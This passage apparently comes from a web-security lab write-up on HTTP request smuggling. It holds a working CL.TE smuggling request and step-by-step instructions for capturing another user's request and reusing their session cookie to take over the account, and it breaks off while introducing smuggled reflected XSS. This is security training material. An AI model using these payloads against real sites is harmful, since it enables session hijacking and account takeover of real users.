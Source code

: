 csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

You can then retrieve the details of the other user's request by retrieving the stored data in the normal way.

### Exploiting HTTP request smuggling to capture other users'requests

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

**Solution**

1. Visit a blog post and post a comment.
2. Send the *comment-post* request to Burp Repeater, shuffle the body parameters so the *comment* parameter occurs last, and make sure it still works.
3. Increase the *comment-post* request's *Content-Length* to 400, then smuggle it to the back-end server:

    ```
    POST / HTTP/1.1
    Host: ac201fb71f4f0c42c08b3b36000d00d4.web-security-academy.net/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 256
    Transfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 400
    Cookie: session=mWT3U7YtIUBWcDzkCDyejiFNjHy4Kceu

    csrf=YnnfoJ6NaCjhUP6SzDIxwCu6WV1tUeSU&postId=4&name=Carlos+Montoya&email=carlos%40email.com&website=&comment=Comment+2
    ```

4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5. Copy the user's Cookie header from the comment, and use it to access their account.

## Using HTTP request smuggling to exploit reflected XSS

This approach is superior to normal exploitation of reflected XSS in two ways:

- It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
- It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

For example, suppose an application has a reflected XSS vulnerability in the User-Agent header. You can exploit this in a request smuggling attack as follows:

```